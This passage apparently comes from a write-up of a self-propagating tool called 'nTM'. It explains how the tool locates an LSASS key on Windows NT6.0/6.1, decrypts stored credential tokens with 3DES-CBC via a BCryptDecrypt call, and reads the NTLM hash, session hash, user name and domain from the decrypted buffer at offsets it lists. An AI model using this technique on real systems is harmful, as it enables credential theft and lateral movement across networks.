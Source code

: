 

    In NT6.1, the key is located at 0x3c relative to -0x04 of 'RUUU'. In NT6.0,
the same thing applies except the key is located at 0x2c. In both cases, the
key is 24 bytes in length. The key cannot contain a NULL byte, this is checked by
LSASS.



====[5] [Intranet Propagation]=====================================================================
    [5fa] NT6.0+ Decryption

    Once nTM has obtained the secret, it must generate a symmetric key and decrypt
the token. BCRYPT_3DES_ALGORITHM is specified in BCryptOpenAlgorithmProvider(...).
The chaining mode, in this case CBC (BCRYPT_CHAIN_MODE_CBC) is applied by calling
BCryptSetProperty(...). 

    Next, a call to BCryptGenerateSymmetricKey(...) returns the handle to the 
key object. The Initialization Vector is an 8 byte cryptographic primitive, which 
increases the entropy of the block cipher. Windows zero's this value before calling
BCryptDecrypt(...).


BCryptDecrypt(  key_handle,
                (PUCHAR)local_token->raw_token,
                NTLM_TOKEN_6_SIZE,
                NULL,
                iv,
                sizeof(iv),
                (PUCHAR)local_token->decrypted_token,
                NTLM_TOKEN_6_SIZE,
                (PULONG)&junk,
                0); 
    
    
                
    The result decrypted buffer is stored in local_token->decrypted_token. The
encryption handlers are closed and nTM processes the decrypted token.




====[5] [Intranet Propagation]=====================================================================
    [5fb]Token Decryption


    n0day identifies several important offsets in the decrypted token:
    
007B05B8  0D614380  €Ca.    00      Base (after 'Primary')
007B05BC  97AD4B10  K­—     04
007B05C0  00140012  ....    08
007B05C4  00000060  `...    12      Offset to user name
007B05C8  54AC2B04  .+¬T    16      Session hash (16 bytes)
007B05CC  B3A514EE  î.¥³    20
007B05D0  80B5DE4F  OÞµ€    24
007B05D4  BA724A5B  [Jrº    28
007B05D8  00000000  ....    32      NTLM hash (16 bytes)
007B05DC  00000000  ....    36
007B05E0  00000000  ....    40
007B05E4  00000000  ....    44
007B05E8  2BE4A824  $¨ä+    48
007B05EC  A8F30F8B  ‹ó¨.    52
007B05F0  DEBAD772  r×ºÞ    56
007B05F4  A9353879  y85©    60
007B05F8  FA4BE8F6  öèKú    64
007B05FC  00010001  ....    68
007B0600  004F004C  L.O.    72      Offset 72 is always the domain in wchar_t
007B0604  00410043  C.A.    76
007B0608  0044004C  L.D.    80
007B060C  004D004F  O.M.    84
007B0610  00490041  A.I.    88
007B0614  0000004E  N...    92